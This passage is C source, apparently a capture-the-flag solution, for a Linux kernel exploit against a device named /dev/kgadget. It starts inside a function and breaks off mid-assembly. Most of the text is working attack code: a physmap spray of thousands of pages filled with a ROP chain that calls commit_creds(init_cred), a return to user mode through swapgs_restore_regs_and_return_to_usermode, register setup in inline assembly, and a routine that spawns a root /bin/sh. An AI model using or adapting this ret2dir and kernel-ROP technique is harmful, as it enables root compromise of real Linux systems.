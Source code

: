 ```c
    if(getuid()){
        error_log("Failed to get root!");
    }
    success_log("Root got!");
    system("/bin/sh");
}

void makeROP(size_t* space){
    int index = 0;
    for(; index < (page_size / 8 - 0x30); index++)
        space[index] = add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret;
    for(; index < (page_size / 8 - 0x10); index++)
        space[index] = ret;
    space[index++] = poprdi_ret;
    space[index++] = init_cred;
    space[index++] = commit_creds;
    space[index++] = swapgs_restore_regs_and_return_to_usermode;
    space[index++] = 0xdeadbeefdeadbeef;
    space[index++] = 0xdeadbeefdeadbeef;
    space[index++] = (size_t)getShell;
    space[index++] = user_cs;
    space[index++] = user_rflags;
    space[index++] = user_sp;
    space[index] = user_ss;

    print_binary((char*)space, page_size);
}

int main(){
    save_status();

    dev = open("/dev/kgadget", O_RDWR);
    if(dev < 0)     // failed to open key device, an unexpected error
        error_log("Cannot open device \"/dev/kgadget\"!");

    page_size = sysconf(_SC_PAGESIZE);      // the size of a page, namely 4096 bytes

    info_log("Spraying physmap......");

    map_spray[0] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    makeROP(map_spray[0]);

    for(int i=1; i<15000; i++){
        map_spray[i] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
        if(!map_spray[i])
            error_log("Mmap Failure!");
        memcpy(map_spray[i], map_spray[0], page_size);
    }

    guess = 0xffff888000000000 + 0x7000000;

    info_log("Ready to turn to kernel......");

    __asm__("mov r15, 0xdeadbeef;"
            "mov r14, 0xcafebabe;"
            "mov r13, 0xdeadbeef;"
            "mov r12, 0xcafebabe;"
            "mov r11, 0xdeadbeef;"
            "mov r10, 0xcafebabe;"
            "mov rbp, 0x12345678;"
            "mov rbx, 0x87654321;"
```